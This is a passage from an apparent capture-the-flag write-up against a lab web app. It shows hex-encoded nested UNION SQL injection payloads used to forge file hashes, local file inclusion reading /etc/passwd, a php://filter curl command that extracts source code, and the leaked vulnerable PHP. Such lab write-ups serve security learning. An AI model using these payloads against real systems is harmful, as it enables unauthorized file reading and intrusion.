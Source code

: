 However, this is not really a problem, as we can simply **hex encode** the `/etc/passwd` to bypass the filter with the payload: `jxf' UNION SELECT "0 UNION SELECT 1,2,0x2f6574632f706173737764-- -"-- -`. We can see that this works, and we get the calculated hash for `/etc/passwd` as `9fa6eacac1714e10527da6f9cf8570e46a5747d9ace37f4f9e963f990429310d`.

![Web 80 Album Sqli Eight](web_80_album_sqli8.webp){: width="1100" height="400"}

Now visiting `http://10.10.152.169/image.php?hash=9fa6eacac1714e10527da6f9cf8570e46a5747d9ace37f4f9e963f990429310d&path=/etc/passwd`, we can see that we were successfully able to include the `/etc/passwd` file and read its contents.

![Web 80 Image Include](web_80_image_include.webp){: width="1100" height="400"}

### Reading Application Files

At this point, since we are able to include arbitrary files, we could attempt log poisoning to escalate the LFI into RCE. However, we are unable to find a suitable log file to poison.

Instead, we can use a PHP wrapper like `php://filter/convert.base64-encode/resource=` to read and enumerate application files.

First, we convert `php://filter/convert.base64-encode/resource=album.php` to hexadecimal (`7068703a2f2f66696c7465722f636f6e766572742e6261736536342d656e636f64652f7265736f757263653d616c62756d2e706870`) and craft the following payload:

```text
jxf' UNION SELECT "0 UNION SELECT 1,2,0x7068703a2f2f66696c7465722f636f6e766572742e6261736536342d656e636f64652f7265736f757263653d616c62756d2e706870-- -"-- -
```

This forces the application to calculate the hash for the path `php://filter/convert.base64-encode/resource=album.php`.

![Web 80 Album Sqli Nine](web_80_album_sqli9.webp){: width="1200" height="450"}

With the calculated hash, we are able to read the source code of `album.php` as such:

```bash
$ curl -s 'http://10.10.152.169/image.php?hash=ec6e518b7e39db98affbf2bf2c671d469639503d4fee97bf7cf0f0a1319075d9&path=php://filter/convert.base64-encode/resource=album.php' | base64 -d
```
{: .wrap }

Output:

```php
...
<?php

include('dbconfig.php');

try {
    // Create a new PDO instance
    $conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);

    // Set PDO error mode to exception
    $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

    if (preg_match('/[\/;]/', $_GET['short_tag'])) {
        // If it does, terminate with an error message
        die("Hacking attempt");
    }

    $album_id = "SELECT id from albums where short_tag = '" . $_GET['short_tag'] . "'";
    $result_album = $conn->prepare($album_id);
    $result_album->execute();

    $r=$result_album->fetch();
```